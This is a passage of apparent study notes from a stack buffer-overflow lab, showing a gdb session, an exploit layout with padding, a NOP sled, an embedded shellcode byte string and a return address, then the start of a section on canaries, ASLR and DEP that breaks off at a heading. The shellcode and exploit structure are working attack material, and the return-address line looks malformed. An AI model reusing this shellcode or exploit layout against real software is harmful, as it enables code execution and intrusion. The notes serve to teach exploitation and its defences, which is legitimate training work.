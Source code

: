 **Submit the size of the stack space after overwriting the EIP as the answer**
`(gdb)$ info proc all`
0x21000

# Identification of the Return Address

---

After checking that we still control the EIP with our shellcode, we now need a memory address where our NOPs are located to tell the EIP to jump to it. This memory address must not contain any of the bad characters we found previously.
#### GDB NOPS

  GDB NOPS

```shell-session
(gdb) x/2000xb $esp+1400
```
```
Buffer  = "\\x55" \* (1040 - 100 - 95 - 4) = 841
NOPs = "\\x90" \* 100
shellcode = "\xdb\xca\xd9\x74\x24\xf4\xbb\x82\xfc\x62\x5f\x5f\x29\xc9\xb1\x12\x31\x5f\x17\x03\x5f\x17\x83\x45\xf8\x80\xaa\x78\xda\xb2\xb6\x29\x9f\x6f\x53\xcf\x96\x71\x13\xa9\x65\xf1\xc7\x6c\xc6\xcd\x2a\x0e\x6f\x4b\x4c\x66\x7a\xa1\xa1\x75\x12\xb7\xbd\x62\xdb\x3e\x5c\x24\x7d\x11\xce\x17\x31\x92\x79\x76\xf8\x15\x2b\x10\x6d\x39\xbf\x88\x19\x6a\x10\x2a\xb3\xfd\x8d\xf8\x10\x77\xb0\x4c\x9d\x4a\xb3"
EIP = "\xff\xff\d7\x38"
```
# Prevention Techniques and Mechanisms

---

The best protection against buffer overflows is security-conscious programming. Software developers should inform themselves about the relevant pitfalls and strive for deliberately secure programming. Besides, there are security mechanisms that support developers and prevent users from exploiting such vulnerabilities.

These include security mechanisms:

- `Canaries`
- `Address Space Layout Randomization` (`ASLR`)
- `Data Execution Prevention` (`DEP`)

---

## Canaries

The `canaries` are known values written to the stack between buffer and control data to detect buffer overflows. The principle is that in case of a buffer overflow, the canary would be overwritten first and that the operating system checks during runtime that the canary is present and unaltered.

---

## Address Space Layout Randomization (ASLR)
